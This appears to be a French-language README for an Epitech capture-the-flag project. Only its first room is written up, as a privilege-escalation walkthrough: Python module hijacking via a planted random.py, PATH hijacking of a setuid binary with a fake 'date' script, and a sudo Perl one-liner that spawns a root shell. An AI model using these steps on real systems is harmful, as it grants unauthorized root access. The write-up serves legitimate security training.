

Ceci est la documentation pour le projet Epitech SOCAT. Il s'agit d'un CTF (capture the flag).

## Sujet Traité :

Etude des vulnérabilités de machines virtuelles.

## Liste non exhaustive des domaines que nous couvrirons :
Reverse Engineering, cryptographie, encodage, gestion des erreurs, protocoles, synchronisation, pièges de langage, escalade de privilèges, etc.


# Room 1 - Toss a coin 

## user.txt ?


## root.txt ?

### Jaskier


- Nous avons ce qui semble être le mot de passe de Jaskier, on peut se connecter en SSH à la machine en tant qu'utilisateur Jaskier.
    ```bash
    ssh jaskier@10.10.250.243
    ```
  

- Commençons par regarder ce qu'il y a dans le dossier personnel de Jaskier.
    ```bash
    ls -lha
    ```
      

- Il y a un script python. Il importe le module random et l'utilise pour sélectionner dix lignes aléatoires de la chanson.
- On vérifie ce que l'utilisateur Jaskier peut exécuter en tant que sudo afin de nous indiquer à qui nous allons élever nos privilèges en premier.
    ```bash
    sudo -l
    ```
  

- Nous pouvons exécuter ce script python dans notre dossier en tant que utilisateur yen.
- Un module est juste un fichier python avec des fonctions qui peuvent être référencées. Ainsi, lorsque la ligne d'importation aléatoire est exécutée, le script recherche ce fichier random.py. Nous pouvons savoir où il recherche ce fichier random.py.

    ```bash
  python3.6 -c 'import sys; print(sys.path)'
    ```
  
- Nous pouvons voir qu'il recherche le fichier random.py dans le dossier /home/jaskier (['']).
- Donc, si on crée un fichier random.py dans ce répertoire, le script python ferait référence à ce fichier car c'est le premier endroit où il vérifie.

   ```bash
    nano random.py
    ```
   ```python
    import os
    os.system("/bin/bash")
  ```
    
- On accorde des droits d'éxécution
    ```bash
    chmod 755 random.py
    ```
  
- Et maintenant, nous exécutons le script python en tant que sudo.
    ```bash
    sudo -u yen /usr/bin/python3.6 /home/jaskier/toss-a-coin.py
    ```
  
- Et nous obtenons un shell en tant qu'utilisateur yen.


### yen

- Commençons par regarder ce qu'il y a dans le dossier personnel de yen.
    ```bash
    ls -lha
    ```
  
- Nous avons un fichier qui appartient à root, mais lisible par yen. Il semble que nous ayons besoin d'un autre niveau de privesc.
- Une fois executé nous obtenons un segfault, après avoir vérifié avec valgrind on se rend compte que c'est un faux segfautl. Donc probablement pas un d'erreur mémoire exploitable. 
    
  

- Mettons le fichier dans machine hôte et regardons-le.
    ```bash
    python3 -m http.server 8000
    ```
  
- Sur notre machine hote
  ```bash
  wget http://10.10.250.243:8000/portal
  ```


- Ouvrons ce binaire dans radare2 en mode débugg.

    ```bash
    r2 -d portal
    ```
  
    ```bash
    aa
    ```
- Maintenant, imprimons la liste des fonctions du binaire.
  
    ```bash
    pdf @main
    ```
  
  
- En parcourant le code en assembleur, nous pouvons voir que setuid et setgid sont définis sur 1003.
- Sur la machine attaquée, regardons /etc/passwd et voyons qui a un identifiant de 1003.

    ```bash
    cat /etc/passwd | grep 1003
    ```
    
  
- Nous avons un utilisateur avec un identifiant de 1003.
- En regardant encore le code en assembleur, nous observons que l'exécutable utilise le binaire système date

    

- La commande echo a un chemin absolu alors que la commande date n'en a pas. Il s'agit d'une référence non sécurisée à un fichier et qui peut être exploitée.
- Si un programme est référencé sans chemin absolu, il doit vérifier la variable d'environnement PATH afin de trouver l'emplacement du binaire. Cependant, nous pouvons changer cette variable.
- Ajoutons le dossier actuel à la variable d'environnement PATH.

    ```bash
    export PATH=/home/yen:$PATH
    ```
  
- On crée notre propre fichier date et on le rend exécutable

    ```bash
    nano date
    ```
  
    ```bash
    #!/bin/bash
    /bin/bash 
    ```

- On accorde des droits d'exécution
  ```bash
  chmod 755 date
  ```

- Maintenant, lorsque date est exécuté, il génère un shell. Étant donné que l'uid et le gid sont définis sur ceux de l'utilisateur geralt, lorsque le programme de date est exécuté dans le binaire portal, il générera un shell en tant qu'utilisateur geralt.



### geralt

- Une fois sur geralt nous pouvons consulter ce qu'il peut exécuter en tant que sudo.
    ```bash
    sudo -l
    ```
  

- On observe que l'utilisateur peut exécuter un programme ou un script en langage Perl en tant qu'utilisateur root. Par conséquent, on exécute ce Perl one-liner pour récupérer le shell en root.

```bash
sudo perl -e 'exec "/bin/bash";'
```


- Nous somme maintenant en root, et nous pouvons consulter le fichier root.txt.
 
```bash
 cat ../../root/root.txt
 ```


# Room 2 - Yer a Wizard


# Room 3 - Muso Troglodytarum
